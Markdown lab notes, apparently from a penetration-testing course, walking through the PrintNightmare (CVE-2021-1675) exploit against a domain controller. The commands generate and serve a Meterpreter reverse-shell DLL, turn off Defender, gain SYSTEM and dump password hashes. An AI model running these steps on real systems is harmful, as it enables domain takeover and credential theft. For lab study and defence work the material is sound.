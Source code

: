 Before running the exploit you need to install new version of Impacket 

	pip3 uninstall impacket
	git clone https://github.com/cube0x0/impacket
	cd impacket
	python3 ./setup.py install

Get that CVE Script 

	wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py

<br>

### Exploit

	{ip} => Our Attacker's IP
	{dcip} => Domain Controller's IP

Now we're going to run that script with a malicious `.dll`

AND we're going to host that `.dll `


	/CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
	
	./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

Generate a payload, using `msfvenom`

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT=4444 -f dll > shell.dll
	
Now get a meterpreter session

	msfconsole
	
	use multi/handler
	
	set payload windows/x64/meterpreter/reverse_tcp
	
	options
	
	set LPORT=4444 and LHOST={ip}
	
	run

Share the `shell.dll` file

	smbserver.py share `pwd` -smb2support
	
	`pwd` shares the current entire directory

So now we need to have

	python3 CVE-2021-1675.py MARVEL.local/fcastle:Password1@{dcip} '\\{ip}\share\shell.dll' 

We get Windows Defender Error!

Let's turn off defender and try again! Now, we successfully get the shell access :)

	getuid
		Server username: NT AUTHORITY\SYSTEM
	
	hashdump
